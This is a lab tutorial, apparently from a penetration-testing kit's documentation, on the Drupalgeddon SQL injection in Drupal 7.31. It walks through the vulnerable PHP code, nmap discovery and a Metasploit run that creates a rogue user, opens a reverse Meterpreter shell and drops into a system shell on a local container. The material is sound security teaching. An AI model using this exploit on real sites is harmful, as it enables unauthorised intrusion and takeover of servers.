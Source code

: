 ## PHP SQL Injection

### Background

Drupal is a content management system that runs on PHP. It is less popular than WordPress and Joomla but it still has a large foothold on the internet due to it's installation avilibility on shared hosting services.

In 'Drupalgeddon', an attacker can inject SQL commands simply by changing the `name` attribute of inputs in an HTML form.

Here's what a normal form looks like:

```html
<form action="/login.php">
  <input type="text" name="username">
  <input type="password" name="password">
</form>
```

As you may guess from the action and the input names, this form is designed to collect login information from a user and authenticate it against a database record. When a matching record is found, the user is logged in.

Now, in some cases, a parameter will have several pieces of data in the form of a multidimensional array. Here is an abstracted and simplified version of how Drupal handles password/password confirmation pairs.

```html
<form action="/signup.php">
  <input type="text" name="email">
  <input type="password" name="pass[pass1]" id="password">
  <input type="password" name="pass[pass2]" id="password_confirmation">
</form>
```

If you turn your attention to the password fields, you might notice that they are setting up their parameters in a peculiar way.

In order to convert the multidimensional array that the backend receives in `$_POST` into something usable, drupal uses this bit of code:

```php
<?php
  protected function expandArguments(&$query, &$args) {
    $modified = FALSE;
    
    foreach (array_filter($args, 'is_array') as $key => $data) {
      $new_keys = array();

      foreach ($data as $i => $value) {
        $new_keys[$key . '_' . $i] = $value;
      }
      
      $query = preg_replace('#' . $key . '\b#', implode(', ', array_keys($new_keys)), $query);
      unset($args[$key]);
      $args += $new_keys;
      $modified = TRUE;
    }

    return $modified;
  }
?>
```

This code essentially turns `pass[pass1]` into `pass_pass1` which will be use in a SQL command. And, as you may have noticed, there is no sanitation whatsoever. 


### Setup

To demonstrate the vulnerability we will be using the penkit Drupal image and metasploit.

First, start the penkit Drupal image:

```bash
$ penkit start drupal:7.31
```

Verify that the service is up

```bash
$ penkit ping -c 4 drupal

PING drupal (172.21.0.3): 56 data bytes
64 bytes from 172.21.0.3: seq=0 ttl=64 time=0.104 ms
64 bytes from 172.21.0.3: seq=1 ttl=64 time=0.083 ms
64 bytes from 172.21.0.3: seq=2 ttl=64 time=0.138 ms
64 bytes from 172.21.0.3: seq=3 ttl=64 time=0.059 ms

--- 172.21.0.3 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 0.059/0.096/0.138 ms
```

### Discovery

First, let's use `nmap` to scan our target to see which ports are open.

```bash
$ penkit nmap drupal

Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-31 00:00 UTC
Nmap scan report for drupal (172.21.0.3)
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:AC:15:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.62 seconds

```

### Exploit

Metasploit also has a module that makes this exploit incredibly easy

```bash
$ penkit metasploit
msf > use exploit/multi/http/drupal_drupageddon
# Set the options
msf exploit(drupal_drupageddon) > set RHOST drupal
msf exploit(drupal_drupageddon) > set PORT 8080
# Run the exploit
msf exploit(drupal_drupageddon) > exploit

[*] Started reverse TCP handler on 172.21.0.4:4444 
[*] Testing page
[*] Creating new user zhsbSTWyDa:rnknRlkmug
[*] Logging in as zhsbSTWyDa:rnknRlkmug
[*] Trying to parse enabled modules
[*] Enabling the PHP filter module
[*] Setting permissions for PHP filter module
[*] Getting tokens from create new article page
[*] Calling preview page. Exploit should trigger...
[*] Sending stage (33986 bytes) to 172.21.0.3
[*] Meterpreter session 1 opened (172.21.0.4:4444 -> 172.21.0.3:54835) at 2017-03-31 00:13:31 +0000

meterpreter > 
```

If the exploit succeeded then you will receive a meterpreter prompt.

From here you can do things like:

```bash
# List files in a directory
meterpreter > ls

# Print file content to the terminal
meterpreter > cat README.txt

# Or you can drop into a shell
meterpreter > shell
Process 42 created.
Channel 0 created.
```

### Summary

This bug was a pretty big blow to Drupal's reputation. 

You can mitigate this risk by:

- Making sure that your Drupal install is up to date.

